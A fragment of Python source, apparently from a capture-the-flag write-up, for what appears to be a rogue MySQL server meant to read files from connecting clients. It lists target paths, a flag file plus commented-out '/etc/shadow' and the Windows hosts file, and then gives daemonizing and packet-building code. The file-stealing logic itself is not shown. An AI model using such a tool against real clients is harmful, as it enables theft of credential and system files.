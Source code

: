 ```
    #    r'c:\windows\system32\drivers\etc\hosts',
        '/fll1llag_h3r3',
    #    '/etc/shadow',
    )


    #================================================
    #=======No need to change after this lines=======
    #================================================

    __author__ = 'Gifts'

    def daemonize():
        import os, warnings
        if os.name != 'posix':
            warnings.warn('Cant create daemon on non-posix system')
            return

        if os.fork(): os._exit(0)
        os.setsid()
        if os.fork(): os._exit(0)
        os.umask(0o022)
        null=os.open('/dev/null', os.O_RDWR)
        for i in xrange(3):
            try:
                os.dup2(null, i)
            except OSError as e:
                if e.errno != 9: raise
        os.close(null)


    class LastPacket(Exception):
        pass


    class OutOfOrder(Exception):
        pass


    class mysql_packet(object):
        packet_header = struct.Struct('<Hbb')
        packet_header_long = struct.Struct('<Hbbb')
        def __init__(self, packet_type, payload):
            if isinstance(packet_type, mysql_packet):
                self.packet_num = packet_type.packet_num + 1
            else:
                self.packet_num = packet_type
            self.payload = payload

        def __str__(self):
            payload_len = len(self.payload)
            if payload_len < 65536:
                header = mysql_packet.packet_header.pack(payload_len, 0, self.packet_num)
            else:
                header = mysql_packet.packet_header.pack(payload_len & 0xFFFF, payload_len >> 16, 0, self.packet_num)

            result = "{0}{1}".format(
                header,
                self.payload
            )
            return result

```